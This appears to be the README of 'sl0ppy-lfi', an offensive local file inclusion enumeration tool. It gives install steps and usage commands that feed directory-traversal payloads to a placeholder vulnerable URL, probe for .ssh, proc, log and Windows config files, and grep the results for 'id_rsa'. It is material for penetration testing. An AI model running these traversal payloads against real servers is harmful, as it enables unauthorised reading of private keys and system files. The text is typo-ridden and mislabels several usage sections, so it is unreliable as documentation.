 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encodiing! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 


## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the read -p submit system user 

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

# Usage 
* ./sl0ppy-lfi-fw 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. 
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 1
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 2
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 3
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# Usage php://Filther-encoding 
* ./sl0ppy-lfi-fw 
* * option 4 
* enter url when it ask for it like this http://server.vulnerable.com/index.php
